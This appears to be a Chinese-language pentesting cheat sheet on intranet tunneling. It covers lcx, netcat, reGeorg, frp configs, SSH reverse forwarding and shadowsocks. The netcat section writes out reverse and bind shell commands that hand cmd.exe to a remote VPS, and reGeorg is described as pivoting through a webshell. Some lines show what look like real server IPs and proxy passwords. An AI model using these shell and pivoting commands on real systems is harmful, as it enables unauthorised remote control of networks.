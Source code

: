 ### 工具

+ lcx.exe

    ```shell
    # 内网端口转发
    lcx.exe -slave vps 2333 127.0.0.1 3389  # 把主机 3389 端口转发到 vps 2333 端口
    lcx.exe -listen 2333 4444  # 监听 2333 端口，并将 2333 请求转发给 4444 端口
    
    # 本地端口转发
    lcx.exe -tran 21 ip 3389  # 将 3389 端口转发到 21 端口
    ```

+ earthworm

    升级版：termite

+ s5.py

    配合 Proxifier 一起使用

+ nc

    ```shell
    # 反向连接
    nc -lvvvp 2333  # vps 开启监听
    nc -t -e cmd.exe vps 2333  # -t 通过 Telnet 模式执行 cmd.exe
    
    # 正向代理
    nc -lp 2333 -t -e cmd.exe  # vps
    nc -vv vps 2333  # 本地
    ```

    

+ reGeorg

    通过 `webshell` 建立一个 `socks` 代理进行内网穿透

+ frp

    frp 牛逼，直接看[文档](https://github.com/fatedier/frp/blob/master/README_zh.md) 

    将 **frps** 及 **frps.ini** 放到具有公网 IP 的机器上。

    将 **frpc** 及 **frpc.ini** 放到处于内网环境的机器上。

    **通过 ssh 访问公司内网机器**

    1. 修改 frps.ini 文件，这里使用了最简化的配置：

    ```shell
    # frps.ini
    [common]
    bind_port = 7000
    
    ./frps -c ./frps.ini
    ```

    ​    2.修改 frpc.ini 文件，假设 frps 所在服务器的公网 IP 为 x.x.x.x；

    ```shell
    # frpc.ini
    [common]
    server_addr = x.x.x.x
    server_port = 7000
    
    [ssh]
    type = tcp
    local_ip = 127.0.0.1
    local_port = 22
    remote_port = 6000
    
    ./frpc -c ./frpc.ini
    ```

    通过 ssh 访问内网机器，假设用户名为 test

    ```
    ssh -oPort=6000 test@x.x.x.x
    ```

    **通过自定义域名访问部署于内网的 web 服务**

    有时想要让其他人通过域名访问或者测试我们在本地搭建的 web 服务，但是由于本地机器没有公网 IP，无法将域名解析到本地的机器，通过 frp 就可以实现这一功能，以下示例为 http 服务，https 服务配置方法相同， vhost_http_port 替换为 vhost_https_port， type 设置为 https 即可。

    1. 修改 frps.ini 文件，设置 http 访问端口为 8080：

    ```shell
    # frps.ini
    [common]
    bind_port = 7000
    vhost_http_port = 8080
    
    ./frps -c ./frps.ini
    ```

    ​    2.修改 frpc.ini 文件，假设 frps 所在的服务器的 IP 为 x.x.x.x，local_port 为本地机器上 web 服务对应      的端口, 绑定自定义域名 `www.yourdomain.com`:

    ```
    # frpc.ini
    [common]
    server_addr = x.x.x.x
    server_port = 7000
    
    [web]
    type = http
    local_port = 80
    custom_domains = www.yourdomain.com
    
    ./frpc -c ./frpc.ini
    ```

    1. 将 `www.yourdomain.com` 的域名 A 记录解析到 IP `x.x.x.x`，如果服务器已经有对应的域名，也可以将 CNAME 记录解析到服务器原先的域名。
    2. 通过浏览器访问 `http://www.yourdomain.com:8080` 即可访问到处于内网机器上的 web 服务。

+ ngrok

### 服务器端:（只用ssh映射，不用跑shadowsocks）

```shell
ssh -R 0.0.0.0:2333:localhost:2333 root@120.79.1.209

vi /etc/ssh/sshd_config
添加一行 //添加GatewayPorts yes  # 使服务器的ssh允许转发0.0.0.0

netstat -an | grep 2333  # 查看端口转发情况
ufw allow 2333    # 防火墙打开端口，记得打开阿里云官网的防火墙端口
service sshd restart
```

### 内网端（跑shadowsocks）
```shell
ssserver -p 2333 -k login_233 -m aes-256-cfb  # 跑shadowsocks
ssh -R 0.0.0.0:2333:localhost:2333 root@120.79.1.209  # ssh设置

```
### 访问
```shell
sslocal -s 35.201.152.114 -p 2333 -k 123456 -m aes-256-cfb -l 1082
//第三方进行
//测试端口
```

## 小问题

出现 问题 ssserver 无法打开
原因：本文适用于解决openssl升级到1.1.0以上版本，导致shadowsocks2.8.2启动报undefined symbol: EVP_CIPHER_CTX_cleanup错误。
解决https://blog.csdn.net/vbaspdelphi/article/details/72993626